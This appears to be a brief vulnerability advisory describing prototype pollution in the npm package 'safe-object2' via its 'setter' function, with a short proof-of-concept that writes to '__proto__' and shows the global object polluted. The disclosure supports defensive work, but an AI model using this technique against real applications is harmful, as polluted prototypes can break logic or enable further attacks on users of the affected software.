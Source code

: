 # Overview

`safe-object2` is a Secure operation object `get/set`, this package is vulnerable to Prototype Pollution via. the `setter` function.

# Proof of Concept
```
const safeObj2 = require(""safe-object2"");
const obj = safeObj2({});
obj.setter(['__proto__', 'polluted'], true)
console.log(polluted); // true
```